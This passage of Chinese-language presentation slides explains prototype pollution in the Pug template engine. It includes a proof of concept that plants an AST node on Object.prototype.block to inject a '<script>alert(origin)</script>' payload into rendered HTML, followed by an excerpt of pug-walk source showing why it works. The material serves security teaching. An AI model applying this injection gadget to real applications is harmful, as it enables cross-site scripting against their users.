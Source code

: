- 函数 `pug.compile` 将字符串转换为模板函数，传递模板中引用的对象来生成 HTML。

</v-clicks>

::right::

<v-clicks>

- 以下是一种检测 Pug 模板引擎是否存在原型链污染的方法：

  ```js {*}{lines:true}
  const pug = require("pug");

  Object.prototype.block = {
    type: "Text",
    val: `<script>alert(origin)</script>`,
  };

  const source = `h1= msg`;

  var fn = pug.compile(source, {});
  var html = fn({ msg: "It works" });

  // <h1>It works<script>alert(origin)</script></h1>
  console.log(html);
  ```

- 当你在 `Object.prototype.block` 中插入 AST 时，编译器会通过 `val` 将其添加到缓冲区中。

</v-clicks>

---

#### Pug PoC 解析

```js {all|14-18}{lines:true, maxHeight:'40%'}
// https://github.com/pugjs/pug/blob/32acfe8f197dc44c54e8af32c7d7b19aa9d350fb/packages/pug-walk/index.js#L37
switch (ast.type) {
  case "NamedBlock":
  case "Block":
    ast.nodes = walkAndMergeNodes(ast.nodes);
    break;
  case "Case":
  case "Filter":
  case "Mixin":
  case "Tag":
  case "InterpolatedTag":
  case "When":
  case "Code":
  case "While":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    break;
  case "Each":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    if (ast.alternate) {
      ast.alternate = walkAST(ast.alternate, before, after, options);
    }
    break;
  case "EachOf":
    if (ast.block) {
      ast.block = walkAST(ast.block, before, after, options);
    }
    break;
```